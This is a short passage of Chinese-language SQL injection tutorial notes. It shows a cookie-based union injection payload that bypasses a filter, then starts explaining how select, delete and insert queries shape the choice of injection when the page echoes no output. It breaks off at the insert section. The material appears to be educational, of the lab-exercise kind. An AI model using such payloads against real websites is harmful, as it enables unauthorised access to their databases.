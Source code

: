 直接cookie注入，进行绕过

Cookie: uname=-admin' union select 1,2,database()--+

![cookie注入](./assets/20250210/c8f653ba7446490db6c2a7d5ae3abc8e.png)

## 查询方式及报错注入

# SQL注入之查询方式

当进行SQL注入时，有很多注入会出现无回显的情况，其中不回显得原因可能时SQL语句查询方式问题导致，这个时候我们需要用到报错或者盲注进行后续操作，同时在注入的过程中，提前了解其中SQL语句可以更好的选择对应的注入语句。

select 查询数据

例如：在网站应用中进行数据显示查询操作

```
select * from user where id=$id
```

## delete 删除数据

例如：后台管理里面删除文章删除用户等操作

```
delete from user where id=$id
```

## insert 插入数据
